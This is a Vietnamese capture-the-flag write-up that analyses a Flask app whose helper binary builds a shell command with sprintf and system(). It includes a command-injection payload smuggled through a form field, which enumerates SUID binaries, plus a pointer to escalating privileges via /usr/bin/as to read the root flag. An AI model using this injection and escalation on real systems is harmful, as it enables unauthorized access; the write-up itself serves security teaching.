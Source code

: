 # 0x1 Overview 

Kiểm tra đoạn code backend được cho

```python
import json
from subprocess import check_output, STDOUT
from flask import Flask, render_template, request
app = Flask(__name__)

@app.route('/')
def index():
	cards = json.loads(open('data/former.txt', 'r').read())
	return render_template('index.html', cards=cards, card_len = len(cards))

@app.route('/contact', methods = ['GET', 'POST'])
def contact():
	if request.method == 'GET':
		return render_template('contact.html')
	elif request.method == 'POST':
		try:
			output = check_output(['./bin/advice', request.form['name'], request.form['advice']], stderr=STDOUT)
		except:
			output = 'Something wrong!'
		return render_template('contact.html', output=output.decode())

if __name__=='__main__':
	app.run(host='0.0.0.0')
```

nhận thấy chương trình có thực thi file binary `/bin/advice` với 2 tham số được thấy từ biến `name` và `advice`. 

# 0x2 Vulnerability 

Load file binary `advice` vào IDAPRO 

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t v3; // rbx
  size_t v4; // rax
  char *s; // [rsp+18h] [rbp-18h]

  v3 = strlen(argv[1]);
  v4 = strlen(argv[2]);
  s = (char *)malloc(v3 + v4 + 100);
  sprintf(s, "echo \"%s\\n%s\" > data/advice", argv[1], argv[2]);
  system(s);
  puts(::s);
  return 0;
}
```

ta thấy có bug `cmd injection` tại hàm `sprintf`. 

# 0x3 Exploit 

Chúng ta chỉ cần bypass dấu nháy kép `"`, đưa toàn bộ ký tự sau `%s` đầu tiên thành comment thì có thể làm một số công việc quan trọng. Với `flag` được cất ở `/root/root.txt`, nên phải leo thang đặc quyền để đọc file này. 

Payload: `"; find -perm -u=s 2>/dev/null; #`

```sh
/usr/bin/gpasswd /usr/bin/chfn /usr/bin/umount /usr/bin/passwd/usr/bin/mount /usr/bin/su /usr/bin/chsh /usr/bin/newgrp /usr/bin/as /tmp/as
```

Với `/usr/bin/as`, kiểm tra tại https://gtfobins.github.io/gtfobins/as, ta có thể đọc được file `root.txt`

# 0x4 References
- [Trương Hoàng Lân AT19](https://hackmd.io/@trhoanglan04/S15a4X8C3#Welcome-to-KCSC)
- [Jonathan Hữu Trí AT18](https://www.youtube.com/watch?v=DRsvh6k3Cu8)